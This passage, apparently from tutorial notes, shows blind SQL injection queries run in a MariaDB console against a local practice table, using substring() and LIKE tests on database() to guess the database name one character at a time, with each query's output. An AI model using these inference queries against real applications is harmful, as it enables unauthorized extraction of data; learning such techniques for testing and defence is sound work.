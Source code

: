 ```
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),3,1)="r";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),4,1)="k";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),1,4)="dark";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.001 sec)
```

**Getting the name of the database using like**

```
MariaDB [dark]> select * from login where id=2 or database() like "%b%";
Empty set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "%ad%";
Empty set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "%rk%";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "%da%";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "%rk";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

```